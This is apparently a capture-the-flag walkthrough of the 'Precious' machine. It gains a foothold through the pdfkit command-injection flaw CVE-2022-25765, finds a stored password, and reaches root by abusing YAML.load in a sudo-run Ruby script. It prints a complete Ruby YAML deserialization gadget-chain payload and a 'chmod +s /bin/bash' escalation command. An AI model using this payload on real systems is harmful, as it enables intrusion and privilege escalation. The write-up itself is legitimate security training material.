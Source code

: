 ```yaml
---
description: PDFkit and Deserialization.
---
```


# Precious

## Gaining Access

**Nmap Scan:**

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Seems like a web vulnerability exploit kinda machine.

### PDFKit

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Website to PDF ind of functions run on plugins, and depending on the language used to do this conversion (JS, PHP), there are exploits for them.

For instance, we can redirect this website to our own hosted HTTP server and convert that. Alternatively, attempts can be made in order to exploit the website via LFI to read the files on the machine.

For enumeration purposes, I began by generating a PDF and downloading it to my machine from this website. We can enumerate the PDF to see if there is a particular software being used.

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

This version of pdfkit is vulnerable to RCE using CVE-2022-25765. There are public exploit scripts available for this.

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

Following the exploit, we can test to see if we indeed have RCE:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

Works! Now we just need to gain a reverse shell. I used a simple bash shell to do so.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Getting Henry

When we gain access as the user ruby, the flag is not there. There is another user named henry in this machine.

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

We don't have permissions to read the flag from henry's directory. However, when poking around ruby's directory and looking into the .bundle directory, we can find henry's password.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

With this, we can SSH in as henry for a better shell. Then, we can grab the user flag.

### Ruby Deserialization

Checking sudo privileges, we find that henry is able to execute the following:

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

Intriguing. The script is as shown below:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

From the looks of this script, YAML.load function is being used. There are certain deserialization exploits for this. The attack is known as 'YAML Deserialization'

Hacktricks has a relevant page covering it.

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}

When searching along the lines of Ruby deserialisation attacks through YAML.load, I found this article which included a PoC.

{% embed url="https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/" %}

How this works is thorugh implementing a gadget chain that was previously used with other Ruby YAML exploits. This basically gives us RCE over the machine as root.&#x20;

We just need to put the malicious YAML file in some writeable place and execute it. Works because the script does not check for an absolute path. Here's the PoC:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I changed the command to `chmod +s /bin/bash` and tried it out. Worked!

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
